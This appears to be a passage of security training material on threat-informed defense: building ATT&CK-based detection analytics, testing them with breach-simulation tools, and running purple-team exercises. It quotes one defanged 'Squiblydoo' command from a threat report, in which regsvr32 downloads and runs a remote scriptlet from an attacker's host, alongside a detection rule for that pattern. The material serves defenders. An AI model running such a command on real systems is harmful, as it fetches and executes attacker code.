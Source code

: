 Begin with looking at the technique description from ATT&CK and the threat intel reports linked in the examples

Here’s an example provided by MITRE in their Getting Started with ATT&CK paper:

Let’s pretend there were no good detections for Regsvr32. The ATT&CK page lists several different variants for how Regsvr32 is used. Rather than writing one analytic to cover all of them, focus in on just one aspect to avoid spinning your wheels. For example, you might want to detect the “Squiblydoo” variant that was discovered by Casey Smith at Red Canary.

The reports linked from the examples show several instances of command lines where Regsvr32 was used, such as this example from the Cybereason analysis of Cobalt Kitty:

The attackers downloaded COM scriplets using regsvr32.exe: regsvr32 /s/n/u/i:hxxp://support.chatconnecting(.)com:80/pic.png scrobj.dll EVIDENCE OF SQUIBLYDOO USED BY COBALT KITTY
Design a test for your analytics using the techniques you’ve discovered. Testing can be done with either a commercial or open-source BAS solution.

Continuing with the example above - I would look at the tests available for Regsvr32, including Squiblydoo.
After executing the test, review the log data generated during the attack. Look for things that make the malicious event look distinctive. 18 Squiblydoo was chosen as an example because it’s a bit easier to find in log data. There isn’t a legitimate reason to have regsvr32.exe call out to the Internet. In this case, the analytic to look for would be times when the regsvr32.exe process is created and the command line includes “/i:http”.

Adversary Emulation & Red Teaming

MITRE defines adversary emulation as “a type of red team engagement that mimics a known threat to an organization by blending in threat intelligence to define what actions and behaviors the red team uses.” In other words, the red team takes a structured approach by using threat intelligence to plan an attack that is similar to known threat actor behavior.

What If You Don’t Have a Red Team

Teams that don’t have a red team can automate and design this process a bit easier by utilizing a BAS tool. There are also other open source options such as Atomic Red Team that can provide a team lacking the red team expertise, the ability to perform adversary emulation red teaming. MITRE supports the CALDERA Project, an open source BAS solution.  

There are also commercial BAS tools, such as AttackIQ, that are available. We dive more into what these tools are and what they can do for you in our Foundations of Breach & Attack Simulation course.

Purple Teaming

Purple Teaming is an organizational concept by which red and blue functions occur simultaneously, continuously, tightly coupled, and with full knowledge of each other’s capabilities, limitations, and intent at any given time.  

One of the best ways to truly test and build upon a threat informed defense is to enable collaboration between red and blue teams through a purple team.  

Given reliable access to red capabilities, this methodology allows security teams to iteratively increase program maturity as a product of continuously clearing low-effort attacks from the board.  

Let’s take a look at the workflow of a purple team.

Red Team executes iterative attacks against friendly cyberspace, tuned to replicate adversary capabilities and prevent irrecoverable disruption
Stopped attacks generate reports of detection and mitigation details back to the Red Team
Successful attacks generate reports of attack method and exposure details back to the Blue Team.
Red and Blue Teams jointly debrief all actions in coordination with IT Ops; mitigations emplaced, attack techniques refined, attack surface reduced.
Continuous testing and improvement refines detection capabilities and enables ever-more difficult scenario execution, which refines detection capabilities.
Let’s continue our example from the lecture to illustrate how the Purple Team concept fits well with a team that operationalizes MITRE ATT&CK. So far you’ve done the research and created multiple analytics to help increase detection capability around credential dumping. Now we want to make this an exercise that improves not only the analytics, but also the skills of everyone involved.
